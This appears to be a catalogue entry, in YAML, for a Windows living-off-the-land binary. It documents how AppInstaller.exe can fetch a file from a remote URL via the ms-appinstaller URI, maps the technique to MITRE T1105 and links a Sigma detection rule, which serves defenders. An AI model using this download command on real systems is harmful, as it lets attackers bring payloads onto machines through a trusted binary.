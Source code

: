 ```yaml
---
Name: AppInstaller.exe
Description: Tool used for installation of AppX/MSIX applications on Windows 10
Author: 'Wade Hickey'
Created: 2020-12-02
Commands:
  - Command: start ms-appinstaller://?source={REMOTEURL:.exe}
    Description: AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL and is saved in INetCache.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files\WindowsApps\Microsoft.DesktopAppInstaller_1.11.2521.0_x64__8wekyb3d8bbwe\AppInstaller.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/dns_query/dns_query_win_lolbin_appinstaller.yml
Resources:
  - Link: https://twitter.com/notwhickey/status/1333900137232523264
Acknowledgement:
  - Person: Wade Hickey
    Handle: '@notwhickey'
---
```


